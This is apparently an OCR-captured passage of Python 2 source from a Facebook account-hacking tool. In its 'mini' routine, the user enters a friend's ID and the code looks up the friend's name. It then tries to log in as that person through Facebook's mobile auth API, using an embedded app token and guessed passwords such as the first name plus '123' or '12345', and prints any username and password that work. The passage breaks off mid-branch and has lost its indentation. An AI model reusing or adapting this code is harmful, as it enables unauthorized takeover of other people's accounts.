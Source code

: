 else:
if hack == '0':
menu()
else:
print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + hack + ' \x1b[1;91mNot found'
hack_pilih()


def mini():
os.system('clear')
try:
toket = open('login.txt', 'r').read()
except IOError:
print '\x1b[1;91m[!] Token not found'
os.system('rm -rf login.txt')
time.sleep(1)
login()
else:
os.system('clear')
print logo
print 52 * '\x1b[1;97m\xe2\x95\x90'
print '\x1b[1;91m[ INFO ] Target must be your friend !'
try:
id = raw_input('\x1b[1;91m[+] \x1b[1;92mID Target \x1b[1;91m:\x1b[1;97m ')
jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
r = requests.get('https://graph.facebook.com/' + id + '?access_token=' + toket)
a = json.loads(r.text)
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mName\x1b[1;97m : ' + a['name']
jalan('\x1b[1;91m[+] \x1b[1;92mChecking \x1b[1;97m...')
time.sleep(2)
jalan('\x1b[1;91m[+] \x1b[1;92mOpen security \x1b[1;97m...')
time.sleep(2)
jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
print 52 * '\x1b[1;97m\xe2\x95\x90'
pz1 = a['first_name'] + '123'
data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
y = json.load(data)
if 'access_token' in y:
print '\x1b[1;91m[+] \x1b[1;92mFounded.'
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m : ' + a['name']
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()
else:
if 'www.facebook.com' in y['error_msg']:
print '\x1b[1;91m[+] \x1b[1;92mFounded.'
print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m : ' + a['name']
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername\x1b[1;97m : ' + id
print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword\x1b[1;97m : ' + pz1
raw_input('\n\x1b[1;91m[ \x1b[1;97mBack \x1b[1;91m]')
menu_hack()
else:
pz2 = a['first_name'] + '12345'
data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + id + '&locale=en_US&password=' + pz2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
y = json.load(data)
if 'access_token' in y:
print '\x1b[1;91m[+] \x1b[1;92mFounded.'
print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mName\x1b[1;97m : ' + a['name']